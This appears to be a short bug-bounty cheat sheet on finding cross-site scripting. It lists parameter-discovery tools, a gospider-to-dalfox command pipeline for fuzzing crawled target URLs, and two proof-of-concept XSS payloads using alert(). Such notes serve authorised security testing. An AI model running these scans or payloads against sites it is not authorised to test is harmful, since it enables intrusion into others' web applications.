 ## Get Parameter as much as possible

1. https://github.com/devanshbatham/ParamSpider
2. gospider -S tageturls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'|grep "=" | qsreplace -a | dalfox pipe -o result.txt
3. Waybackurls | gau
4. https://github.com/s0md3v/Arjun
5. https://github.com/hakluke/hakrawler
6. https://github.com/PortSwigger/param-miner

Combine all in a file and remove duplicates.

## Run XSS fuzzer
1. https://github.com/s0md3v/XSStrike
2. https://github.com/hahwul/dalfox


Resources:
- https://blog.yeswehack.com/yeswerhackers/parameter-discovery-quick-guide-to-start/
- https://infosecwriteups.com/tale-of-my-first-xss-27f622bc47c0
<hr>

## dalfox usage:
```
gf xss domain.txt | grep -Eo 'https?://[^\"]+' > domain.txt
dalfox file domain.txt -w 20 --silence
```

<hr>

## another technique to find XSS

- Scrape all urls from the domain using gau
- then sort the result using grep command: `cat url.txt | grep “utm_”`
- do testing

resources:
- https://santoshdbobade.medium.com/how-i-got-reflected-cross-site-scripting-rxss-on-manchester-metropolitan-university-700b36cb4f53


<hr>

## Custom useful XSS Attack Vectors
```
testing"><img/src=x onerror=alert(/XSS/)//
testing'-alert(2)-'xss
```
